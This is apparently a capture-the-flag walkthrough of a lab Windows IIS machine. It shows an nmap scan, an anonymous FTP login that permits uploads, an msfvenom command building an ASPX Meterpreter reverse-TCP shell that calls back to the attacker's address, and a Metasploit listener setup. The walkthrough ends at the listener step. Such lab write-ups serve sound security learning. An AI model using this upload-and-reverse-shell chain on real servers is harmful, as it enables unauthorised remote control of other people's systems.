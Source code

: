 ![devel](https://user-images.githubusercontent.com/66635295/176747179-515a7195-1782-4254-a173-23b18a86530a.png)
**RECON**
---
**IIS Server (Windows)**

![recon](https://user-images.githubusercontent.com/66635295/176748219-b064f388-d683-4c33-bb29-52c20d8961c2.png)

**Nmap Scan**
<pre>nmap –p- -A -T4 10.10.10.5</pre>
-allports -version -Aggressive
Port 21 allows for anonymous FTP Login
![nmap](https://user-images.githubusercontent.com/66635295/176748164-8d9bc8c3-02b3-4001-9ead-c9a2e7b90d0e.png)

**ENUMERATION**
---
**FTP Login** 
<pre>User: anonymous</pre>
<pre>Pass: anonymous</pre>
The connection allows files to be uploaded
![ftp](https://user-images.githubusercontent.com/66635295/176749228-6da8577b-6f75-41f9-a2a1-9ec36a6cc287.png)

**Msfvenom Payload**
<pre> -p windows/meterpreter/reverse_tcp LHOST=10.10.14.9 LPORT=4444 -f aspx > ex aspx </pre>
![msf](https://user-images.githubusercontent.com/66635295/176749731-c01f10d3-5894-4363-ab9c-08b91a0c0d61.png)

**Metasploit Listner**
<pre>use exploit/multi/handler</pre>
<pre>set payload windows/meterpreter/reverse_tcp</pre>
<pre>set LHOST 10.10.14.9</pre>
![msf consoel](https://user-images.githubusercontent.com/66635295/176750030-1de89e38-2ce4-46b8-9934-5bf80018e2b5.png)
